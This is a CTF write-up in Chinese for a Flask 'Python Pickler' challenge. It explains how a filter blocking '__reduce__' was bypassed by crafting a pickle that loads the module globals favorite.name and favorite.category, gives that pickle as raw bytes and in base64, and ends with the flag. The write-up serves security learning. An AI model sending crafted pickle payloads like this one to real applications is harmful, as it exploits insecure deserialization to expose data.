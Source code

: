 # animal
这道题提供了一个网页。而且还提供了网页后端的源代码，发现是使用Flask框架写的。

考虑使用Flask模板注入，但是没有发现注入点，于是放弃了这种方法。

后面发现网页的名字叫做“Python Pickler”，感觉应该是和`pickle`有关的。于是查找了一些关于pickle的资料，发现pickle的确有很多漏洞可以帮助我们解决这道题。

首先使用最广泛使用的`__reduce__`方法，我定义了一个`__reduce__`函数并提交，发现显示了错误信息，原来不能pickle里面不能包含'R'这个字母。所以使用这种方法是行不通的。

后来，我发现了源代码中的这样一个可疑的地方，它在格式化字符串后面加了`!r`，于是里面的内容就变成了`repr(xxx)`。所以，假如说我的pickle里面表示的是一个符号的话，它是可疑被直接解析出来的，并且会显示在返回的网页里。如果说这个符号就是题目需要的name和category的话，那么这道题的flag就可以得到了。

经过一番尝试，我得到了如下可用的pickle：
```
b'\x80\x03c__main__\nAnimal\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03cfavorite\nname\nq\x04X\x08\x00\x00\x00categoryq\x05cfavorite\ncategory\nq\x06ub.'
```
经过base64加密之后，得到：
```
gANjX19tYWluX18KQW5pbWFsCnEAKYFxAX1xAihYBAAAAG5hbWVxA2NmYXZvcml0ZQpuYW1lCnEEWAgAAABjYXRlZ29yeXEFY2Zhdm9yaXRlCmNhdGVnb3J5CnEGdWIu
```
提交该payload，发现返回的网页中，`favorite.name`和`favorite.category`被自动替换为了答案，由此可以直接得到flag：
```
0ops{magic_pickle_7395a19cea06fec1}
```
